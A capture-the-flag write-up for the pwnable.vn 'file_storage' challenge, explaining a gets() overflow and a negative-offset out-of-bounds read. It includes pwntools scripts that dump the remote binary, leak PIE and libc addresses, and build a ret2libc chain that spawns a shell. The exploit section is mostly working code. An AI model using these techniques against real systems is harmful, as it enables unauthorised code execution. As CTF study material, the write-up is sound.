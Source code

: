 # pwnable.vn - file_storage

Original challenge link: https://pwnable.vn/challenges#file_storage-3

You can as well download provided files in my repo: [file_storage.zip](file_storage.zip)

There will be 1 file in the zip:
- file_storage.c

Download and extract, then we can get started!

# 1. Find bug

We are provided with the source code so let's open it to see what's the main flow. Look at the function main(), we know there are 4 options. The first option `exit` just simply break the while loop and execute function feedback(). Look at that function, it's easy to see there is a **Buffer Overflow** due to gets():

```c
void feedback()
{
    char buf[256];

    puts("Please give us your feedback on the service!");
    gets(buf);
    puts("Bye!");
}
```

But we cannot do anything with this bug because we have no information (addresses and all of defences) of both the binary and the libc on server. Let's save this bug for later use.

The next option is `help`, it just prints all the avalable commands out for us. With the third option `ls`, it prints all the file names in folder `files` out and loop back again to ask for another command. These 2 options seem useless!

The last option is `cat`. The format for this command is `cat <file-name> <start-from-offset> <number-byte-print>`. When we `cat` a file, the program will check the file name to make sure we cannot open any files outside `files` folder, then get the offset number to print from `off` and the number of byte to be printed out `len`. However, those 2 variables `off` and `len` aren't checked for negative number --> **Out Of Bound**.

The variable `fixed` in c was defined as follows:

```c
static char fixed[4096] __attribute__((section(".dynamic")));
```

That means this variable has address in range of binary because the section `.dynamic` belongs to binary. If the file we `cat` has size lower than `4096`, that data will be read to this `fixed` variable. Otherwise, a chunk will be created to contain data.

We know we have **Out Of Bound** bug so if we leak value on heap memory, that would be useless, but if we can leak data in binary (which means `buf` now is `fixed`, not a heap chunk), we can leak the address of binary to see if it's `PIE enable` or not, maybe we can leak libc address too. After all, the easiest way is to leak all the binary and we can check where addresses are placed and all the mitigation techniques of program.

When we have the binary, we just need to conduct a simple ret2libc and we get shell.

Summary:
- Stage 1: Leak binary byte to rebuild binary
- Stage 2: Ret2Libc

# 2. Idea

- Stage 1: Leak binary byte to rebuild binary
- Stage 2: Ret2Libc
	- 2.1: Leak exe address
	- 2.2: Leak libc address
	- 2.3: Get shell

# 3. Exploit

### Stage 1: Leak binary byte to rebuild binary

We have bug **Out Of Bound** so we can leak the data from the begining of memory out. To be clear, let's compile and debug the file to see what address we need to print data out:

![vmmap.png](images/vmmap.png)

The aim is to print all data from address `0x00555555554000` to `0x0055555555a000` out because when we have those byte, we can add those bytes to one file and that file will become a binary as server (surely that some data will be lost but we have the instructions of binary so we know what binary does, we can see if it has canary or not, we can see if it's `PIE enable` or not and we can see if there is any address before `fixed` we can use to leak addresses)

We want to leak from the begining of binary so after a few attemps, I get the correct offset `-13920` to print data from the begining of binary. We can control how many bytes to be printed so let's make it print `256` bytes per command:

```python
offset = -13920
length = 0x100
```

Let's put these thing up:

```python
p = remote("file_storage.pwnable.vn", 10000)

payload = f'cat lorem {offset} {length}'.encode()
p.sendlineafter(b'> ', payload)

output = p.recv(length)
print(payload.decode(), "-->", output)

with open("bin", "ab") as f:
	f.write(output)
```

We will write to file `bin` all the bytes we receive after we enter command. The code above just print out `256` bytes. We will want to leak from the begining of binary to the current variable `fixed` with its offset is `0` so let's put them to a loop and leave it until done:

```python
offset = -13920
length = 0x100
while True:
	p = remote("file_storage.pwnable.vn", 10000)

	payload = f'cat lorem {offset} {length}'.encode()
	p.sendlineafter(b'> ', payload)

	output = p.recv(length)
	print(payload.decode(), "-->", output)
	if output==b'Invalid offset and length parameters':
		exit(0)
	with open("bin", "ab") as f:
		f.write(output)

	offset+=length
```

After it's done, we get a file called `bin` and let's check its basic information:

![file-file.png](images/file-file.png)

The command `checksec` gets error absolutely due to data loss. But we know this is a 64-bit file and it is stripped. Decompiling the file with ida, we know this binary doesn't have canary enabled just by looking at the prologue and epilogue, it doesn't saved any value at the begining of a procedure and doesn't have function `__stack_chk_failed` at the end, specially in function feedback(), which has **Buffer Overflow** bug.

We can run the file but cannot debug with gdb so to debug this file, we just need to attach gdb to the running process of this file. When attach this process, we can see the binary is PIE so leaking binary address is needed now.

### Stage 2: Ret2Libc

- 2.1: Leak exe address

To leak binary address, we will check all the data before the variable `fixed`. Setting breakpoint at fread() from file to buffer and we can get the address of `fixed`, which is in rdi register:

![get-rdi.png](images/get-rdi.png)

So let's check all the data before this address and after a while checking, we found this binary address:

![check-before-fixed.png](images/check-before-fixed.png)

We can get the offset just with a simple calculation:

```python
>>> #     fix      - 0x5555555575e8
>>> 0x555555557660 - 0x5555555575e8
120
```

So we have `off` is `-120` (note that `fixed` + `???` = `0x5555555575e8`), we just need to write script to get that address now:

```python
gdb.attach(p, gdbscript="vmmap\n")
payload = f'cat lorem {-120} {8}'.encode()
p.sendlineafter(b'> ', payload)

exe_leak = u64(p.recv(8))
exe_base = exe_leak - 0x7f0
log.info("Exe base: " + hex(exe_base))
```

- 2.2: Leak libc address

Just a simple leak with binary address in hand:

```python
main = exe_base + 0x1811
puts_got = exe_base + 0x4688
puts_plt = exe_base + 0x11e0
pop_rdi = exe_base + 0x1ab3

p.sendlineafter(b'> ', b'exit')
payload = cyclic(cyclic_find('qaac'))
payload += flat(
	pop_rdi, puts_got,
	puts_plt,
	main,
	)
p.sendlineafter(b'service!', payload)

p.recvuntil(b'Bye!\n')
puts_addr = u64(p.recv(6) + b'\x00\x00')
libc.address = puts_addr - libc.sym['puts']
log.info("Puts address: " + hex(puts_addr))
log.info("Libc base: " + hex(libc.address))
```

- 2.3: Get shell

And just simple as it is:

```python
ret = exe_base + 0x1810

p.sendlineafter(b'> ', b'exit')
payload = cyclic(cyclic_find('qaac'))
payload += flat(
	ret,        # Stack alignment will give us shell, otherwise don't
	pop_rdi, next(libc.search(b'/bin/sh')),
	libc.sym['system'],
	)
p.sendlineafter(b'service!', payload)
```

Full script: [solve.py](solve.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)